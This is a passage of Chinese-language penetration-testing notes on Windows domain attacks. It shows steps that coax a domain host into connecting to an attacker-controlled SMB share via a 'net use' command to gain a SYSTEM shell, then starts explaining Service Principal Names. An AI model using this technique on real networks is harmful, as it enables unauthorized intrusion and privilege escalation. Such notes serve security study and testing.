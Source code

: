 4. 诱导域内主机访问被控主机的 SMB 服务, 例如:

```
net use \\192.168.247.136\c$
```

![](vx_images/4062343159391.png)

5. 成功之后, 将会获取域内主机的 system 权限 shell

![](vx_images/1717944155946.png)

# 5. SPN 利用

## 5.1 SPN 简介

SPN 全称`Service Principal Names`，服务主体名称。用于唯一标识 Windows 服务的每个实例，每个使用 Kerberos 的服务都需要一个 SPN。如果服务的权限为一个域用户，则 SPN 注册在域用户（User）账户下；若服务权限为 Local System 或 Network Service，则 SPN 注册在机器账户下（Computers）下。

## 5.2 SPN 格式

`<service class>/<host>:<port>/<service name>`

例如:
